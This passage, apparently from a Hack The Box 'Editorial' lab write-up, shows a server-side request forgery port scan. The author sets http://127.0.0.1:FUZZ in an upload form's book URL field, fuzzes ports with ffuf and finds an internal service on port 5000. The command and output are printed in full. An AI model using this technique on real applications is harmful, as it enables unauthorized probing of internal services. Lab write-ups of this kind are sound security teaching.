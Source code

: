 Note the placement of `FUZZ` in the above request template.

Then I generated a list of all ports:

```console
$ seq 1 65536 > ports.txt
```

And by running `fuff` I hit on port 5000:

```console
$ ffuf -request req -w ports.txt -debug-log db.txt -X POST -request-proto http -v -ac

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://editorial.htb:80/upload-cover
 :: Wordlist         : FUZZ: /home/e/htb-editorial/ports.txt
 :: Header           : User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
 :: Header           : Accept-Encoding: gzip, deflate, br
 :: Header           : DNT: 1
 :: Header           : Connection: keep-alive
 :: Header           : Origin: http://editorial.htb
 :: Header           : Referer: http://editorial.htb/upload
 :: Header           : Host: editorial.htb:80
 :: Header           : Accept: */*
 :: Header           : Accept-Language: en-US,en;q=0.5
 :: Header           : Content-Type: multipart/form-data; boundary=---------------------------230055699114989147201318430837
 :: Data             : -----------------------------230055699114989147201318430837
Content-Disposition: form-data; name="bookurl"

http://127.0.0.1:FUZZ
-----------------------------230055699114989147201318430837
Content-Disposition: form-data; name="bookfile"; filename=""
Content-Type: application/octet-stream


-----------------------------230055699114989147201318430837--

 :: Follow redirects : false
 :: Calibration      : true
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

[Status: 200, Size: 51, Words: 1, Lines: 1, Duration: 131ms]
| URL | http://editorial.htb:80/upload-cover
    * FUZZ: 5000
```
